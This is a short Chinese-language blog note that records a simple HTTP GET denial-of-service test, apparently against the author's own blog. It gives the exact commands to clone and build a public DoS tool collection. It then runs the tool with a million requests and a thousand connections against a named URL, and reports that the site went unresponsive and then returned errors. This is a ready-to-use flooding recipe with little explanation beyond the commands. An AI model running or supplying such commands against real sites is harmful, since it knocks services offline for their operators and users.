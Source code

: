 ```yaml
---
title: "一次简单的http-get攻击"
date: 2021-10-28T07:08:22Z
description: "记录一次简单 Dos 攻击方法，提升网络安全意识."
categories: ["技术笔记集"]
tags: ["dos", "linux", "http-get"]
draft: false
# weight: 5
---
```


使用 [http-get-dos](https://github.com/wenfengshi/ddos-dos-tools/tree/master/http-get-dos) 工具执行。

> http-get-dos是一个简单的、高性能HTTP GET DOS工具，可自定义HTTP请求头、连接数、总的HTTP请求数等
进入目录下make编译后，http-get-dos -h 查看使用信息
> 

来源GitHub项目：DDos/DoS工具集：[https://github.com/wenfengshi/ddos-dos-tools](https://github.com/wenfengshi/ddos-dos-tools)

命令:

```bash
git clone https://github.com/wenfengshi/ddos-dos-tools.git
cd ddos-dos-tools/http-get-dos
make
./http_get_dos -n 1000000 -c 1000 -H "Connection: keep-alive" http://blog.frytea.com/
```

实测采用一台1m阿里云服务器对1m轻量服务器攻击，网站无响应

![%E4%B8%80%E6%AC%A1%E7%AE%80%E5%8D%95%E7%9A%84http-%20186ab/Untitled.png](📒%20Note/knowledge/计算机网络%2072284/一次简单的http-%20186ab/Untitled.png)

实测再加入搬瓦工1G口KVM对阿里云1M轻量服务器攻击，网站瞬间500.

![%E4%B8%80%E6%AC%A1%E7%AE%80%E5%8D%95%E7%9A%84http-%20186ab/Untitled%201.png](📒%20Note/knowledge/计算机网络%2072284/一次简单的http-%20186ab/Untitled%201.png)